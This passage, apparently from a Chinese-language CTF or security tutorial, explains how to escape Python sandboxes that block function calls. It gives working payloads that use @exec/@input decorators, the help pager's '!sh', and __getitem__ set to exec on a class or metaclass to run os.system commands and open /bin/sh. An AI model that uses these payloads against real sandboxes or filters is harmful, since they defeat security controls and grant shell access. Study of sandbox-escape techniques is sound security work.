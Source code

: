 当我们输入上述的代码后, Python 会打开输入,此时我们再输入 payload 就可以成功执行命令.
```python
>>> @exec
... @input
... class X:
...     pass
... 
<class '__main__.X'>__import__("os").system("ls")
```
由于装饰器不会被解析为调用表达式或语句, 因此可以绕过黑名单, 最终传入的 payload 是由 input 接收的, 因此也不会被拦截.

其实这样的话,构造其实可以有很多,比如直接打开 help 函数.
```py
@help
class X:
    pass
```
这样可以直接进入帮助文档:
```py
Help on class X in module __main__:

class X(builtins.object)
 |  Data descriptors defined here:
 |  
 |  __dict__
 |      dictionary for instance variables (if defined)
 |  
 |  __weakref__
 |      list of weak references to the object (if defined)
(END)
```
再次输入 !sh 即可打开 /bin/sh


#### 函数覆盖

我们知道在 Python 中获取一个的属性例如 `obj[argument]` 实际上是调用的 `obj.__getitem__` 方法.因此我们只需要覆盖其 `__getitem__` 方法, 即可在使用 `obj[argument]` 执行代码:
```py
>>> class A:
...     __getitem__ = exec
... 
>>> A()['__import__("os").system("ls")']
```

但是这里调用了 A 的构造函数, 因此 AST 中还是会出现 ast.Call. 如何在不执行构造函数的情况下获取类实例呢? 

##### metaclass 利用
Python 中提供了一种元类(metaclass)概念。元类是创建类的“类”。在 Python中，类本身也是对象，元类就是创建这些类（即类的对象）的类。

元类在 Python 中的作用主要是用来创建类。类是对象的模板，而元类则是类的模板。元类定义了类的行为和属性，就像类定义了对象的行为和属性一样。

下面是基于元类的 payload, 在不使用构造函数的情况下触发
```py
class Metaclass(type):
    __getitem__ = exec 
    
class Sub(metaclass=Metaclass):
    pass

Sub['import os; os.system("sh")']
```
